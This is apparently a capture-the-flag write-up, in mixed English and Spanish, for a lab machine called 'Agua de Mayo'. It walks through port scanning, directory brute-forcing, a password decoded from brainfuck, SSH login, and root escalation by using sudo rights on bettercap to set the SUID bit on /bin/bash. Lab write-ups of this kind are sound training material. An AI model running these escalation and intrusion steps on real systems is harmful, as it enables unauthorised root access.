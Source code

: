 # Agua de Mayo

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

 (Foto comentarios pagina web)

Parece que nos encontramos con código brainfuck por lo tanto necesitamos un traductor brainfuck a Ascii. Nos aparece esta palabra que puede ser una posible contraseña.

```ruby
bebeaguaqueessano
```
Foto del traductor

Ahora hacemos un reconocimiento de subdomninios con la herramienta dirbuster obteniendo lo siguiente:

```ruby
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```

Foto de agua ssh

## Examining the agua_ssh.jpg Image

Descargamos la imagen y usamos herramientas como exiftool o stehide para comprobar si existe algun secreto en su interior.
Sin embargo no encontramos nada.

foto exiftool 

## Intrusion

Finalmente vamos a intentar identificarnos en el servicio ssh:

``` ruby
user: agua
password: bebeaguaqueessano
```

foto de intrusion


## Escalation privilege

Con el comando id y vemos que pertenecemos al grupo lxd. Posiblemente si explotamos esta vulnerabilidad podamos escalar privilegios.

Veremos que tenemos una archivo llamado alpine-v3.13-x86_64-20210218_0139.tar.gz que hace que sea casi seguro que debamos explotar el lxd. Pero no, esto no es más que un rabbit hole 

Si realizamos un sudo -l vemos que podemos ejecutar como root el /usr/bin/bettercap.

foto bettercap 

si arimos el fihero como sudo podemos hacer que aparecezca nuestra bash con el siguiente comando 

```ruby
! chmod +s /bin/bash
```

cerramos la aplicacion y hacemos el siguiente comando:

```ruby
/bin/bash -p
```

finalmente vemos como somos usuarios root.